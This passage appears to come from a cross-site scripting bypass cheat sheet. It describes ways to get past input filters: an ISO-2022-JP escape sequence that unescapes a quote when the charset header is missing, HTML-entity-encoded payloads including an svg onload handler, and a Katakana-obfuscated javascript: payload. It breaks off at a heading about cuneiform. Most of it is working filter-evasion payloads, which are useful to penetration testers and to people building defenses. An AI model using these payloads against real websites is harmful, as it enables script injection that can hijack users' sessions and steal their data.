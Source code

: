 
## Bypass using Missing Charset Header

**Requirements**:

* Server header missing `charset`: `Content-Type: text/html`

### ISO-2022-JP

ISO-2022-JP uses escape characters to switch between several character sets.

| Escape    | Encoding        |
|-----------|-----------------|
| `\x1B (B` | ASCII           |
| `\x1B (J` | JIS X 0201 1976 |
| `\x1B $@` | JIS X 0208 1978 |
| `\x1B $B` | JIS X 0208 1983 |


Using the [code table](https://en.wikipedia.org/wiki/JIS_X_0201#Codepage_layout), we can find multiple characters that will be transformed when switching from **ASCII** to **JIS X 0201 1976**.

| Hex  | ASCII | JIS X 0201 1976 |
| ---- | --- | --- |
| 0x5c | `\` | `¥` | 
| 0x7e | `~` | `‾` |


**Example**

Use `%1b(J` to force convert a `\'` (ascii) in to `¥'` (JIS X 0201 1976), unescaping the quote.

Payload: `search=%1b(J&lang=en";alert(1)//`


## Bypass using HTML Encoding

```javascript
%26%2397;lert(1)
&#97;&#108;&#101;&#114;&#116;
></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

## Bypass using Katakana

Using the [aemkei/Katakana](https://github.com/aemkei/katakana.js) library.

```javascript
javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
```

## Bypass using Cuneiform
